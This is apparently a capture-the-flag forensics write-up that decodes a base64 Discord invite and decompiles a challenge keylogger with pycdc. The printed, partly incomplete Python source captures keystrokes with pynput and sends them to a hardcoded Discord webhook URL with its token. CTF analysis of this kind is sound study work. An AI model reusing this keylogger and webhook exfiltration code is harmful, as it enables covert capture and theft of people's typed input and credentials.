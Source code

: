 ```

---SNIP---
```

Below the URL seems to be a base64 encoded string. Decoding it provides a Discord server invite link. The flag is located in the server. PS: One of the best forensics challenge I've done this year imo

```
└─$ echo "aHR0cHM6Ly9kaXNjb3JkLmdnL3Bzd1R0VW5wSkM=" | base64 -d
https://discord.gg/pswTtUnpJC
```

Edit: The decompiler [pycdc](https://github.com/zrax/pycdc) can help decompile the pyc file properly.

```
└─$ ./pycdc ~/Desktop/sharedfolder/L3akCTF/The\ Spy/L3AK.exe_extracted/keylogger.pyc
# Source Generated with Decompyle++
# File: keylogger.pyc (Python 3.12)

from pynput.keyboard import Listener, Key
from threading import Timer
from dhooks import Webhook
WEBHOOK_URL = 'https://discord.com/api/webhooks/1240207195849883739/IrZDxAPOwxaHyUOZCcqLVQSRhl4FjwaYzaCUJTvEdmf5Y_jKmzxUMuz2jp3UyRnrvfsl'
INTERVAL = 30
hjlkhas = 'aHR0cHM6Ly9kaXNjb3JkLmdnL3Bzd1R0VW5wSkM='

class Keylogger:
    
    def __init__(self, WB_URL, interval = (30,)):
        self.WB_URL = WB_URL
        self.interval = interval
        self.log = ''
        self.special_keys = {
            Key.esc: '[ESC]',
            Key.backspace: '[BACKSPACE]',
            Key.tab: '\t',
            Key.enter: '\n',
            Key.space: ' ' }
        self.current_keys = set()

    
    def _send_info(self, log):
        if log != '':
            webhook = Webhook(self.WB_URL)
            webhook.send(log)
            return None

    
    def _key_down(self, key):
Unsupported opcode: COPY
        pass
    # WARNING: Decompyle incomplete

    
    def _key_up(self, key):
        if key in self.current_keys:
            self.current_keys.remove(key)
            return None

    
    def _report(self):
        self._send_info(self.log)
```